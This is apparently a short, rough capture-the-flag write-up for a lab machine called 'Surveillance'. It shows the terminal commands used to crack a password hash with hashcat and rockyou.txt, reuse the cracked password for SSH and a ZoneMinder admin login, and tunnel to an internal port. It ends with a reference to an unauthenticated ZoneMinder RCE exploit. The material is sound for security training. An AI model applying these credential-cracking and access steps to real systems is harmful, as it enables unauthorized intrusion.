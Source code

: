 ```
Matthew
39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec


```

```bash
┌──(pwn㉿kali)-[~/Surveillance]
└─$ hashcat -m 1400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force 

39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec:starcraft122490
```
starcraft122490
Matthew
```bash
┌──(pwn㉿kali)-[~/Surveillance]
└─$ ssh matthew@10.10.11.245
matthew@10.10.11.245's password: 

ssh -4 -L 9991:127.0.0.1:8080 matthew@surveillance
any traffic come to 9991 to localhost will be redirected to 8080 matthew
```
## `pwn` host
```bash
matthew@surveillance:~$ ls
user.txt
matthew@surveillance:~$ cat user.txt 
0ab---------------------------------c6
matthew@surveillance:~$ 

```
running linpeas.sh is good practice
```bash

matthew@surveillance:~$ ss -lntp
LISTEN       0            511                    127.0.0.1:8080                   0.0.0.0:*                        
matthew@surveillance:~$ 

```
-port 8080 not visible public
-port forword
```bash
┌──(pwn㉿kali)-[~]
└─$ ssh -L 8080:127.0.0.1:8080 matthew@10.10.11.245
in web
http://127.0.0.1:8080/
login with admin + starcraft122490
```

https://www.exploit-db.com/exploits/51902

ZoneMinder Snapshots < 1.37.33 - Unauthenticated RCE

---